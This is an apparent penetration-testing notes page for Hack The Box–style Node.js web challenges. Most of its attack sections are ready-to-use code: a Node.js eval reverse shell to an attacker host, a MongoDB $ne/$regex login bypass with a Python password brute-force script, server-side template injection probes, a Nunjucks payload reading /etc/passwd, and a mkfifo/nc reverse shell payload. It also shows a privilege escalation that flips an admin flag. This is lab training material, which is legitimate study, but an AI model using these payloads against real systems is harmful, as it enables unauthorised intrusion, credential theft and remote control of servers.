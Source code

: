 #### Enumeration
Capture url request in BurpSuite:
```
...
/api/users
...
```
Take a look at /api/users
Take the list of users, and a short list of passwords, and attack the login request.
Look for something that would need elevated privilges, like /api/settings.
```
{"color-theme":"light","lang":"en","admin":false}
```
Change admin value to true:
```
{"color-theme":"dark","admin":true}
```
#### Node.js (Express middleware)
Below we're able to test this input box by adding 1 + 1
and seeing the result of "2".
Let's try something more complicated:
```node - kali
(function(){
   return 2+2;
})();
```
and we see this also works
```node - kali
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(21, "$KALI", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```
#### NodeBlog
Details on $ne
https://docs.mongodb.com/manual/reference/operator/query/ne/
```
http://10.129.96.160:5000/login
```
Capture in Burp, change Content-Type to json:
```BurpSuite - kali
Content-Type: application/json
```
Change the data body to json format:
```BurpSuite - kali
{"user":"admin","password":"admin"}
```
Send, notice we still get invalid password.  If we modify the username, we get invalid username, working as intended.
```BurpSuite - kali
{
	"user":"admin",
	"password":{
		"$ne":"admin"
	}
}
```
```bash - kali
mousepad login.py
```
```python - kali
import requests
import json
import string
import sys
def login(pw):
	payload = '{ "$regex":"%s"}' % pw
	data = {"user":"admin", "password": json.loads(payload)}
	r=requests.post("http://10.129.96.160:5000/login",json=data)
	if "Invalid Password" in r.text:
		return False
	return True
password = '^'
stop = False
while stop == False:
	for i in string.ascii_letters:
		sys.stdout.write(f"\r{password}{i}")
		if login(f"{password}{i}"):
			password += i
			if login(f"{password}$"):
				sys.stdout.write(f"\r{password}\r\n")
				sys.stdout.flush()
				stop=True
				break
			break
```
admin:IppsecSaysPleaseSubscribe
#### Command injection
First, we notice how the our input for the newsletter is reflected back to us.
Test for command injection
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
Capture in Burp, send to repeater.
#### Node JS command Injection
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks
POC:
```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}
```
Final payload:
```
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@htb.us"
}
```
![[1._rlwrap]]
Reverse Shell
```
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc $KALI 443 >/tmp/f')\")()}}@htb.us"
}
```
#### package.json
If found, evaluate for vulnerable dependencies.  Maybe this is something we can combine with Dependency-Check?!
```
"request”: "~2",
“saniti%e—htm'l": "1.4.2",
"sequelize": "~4",
```
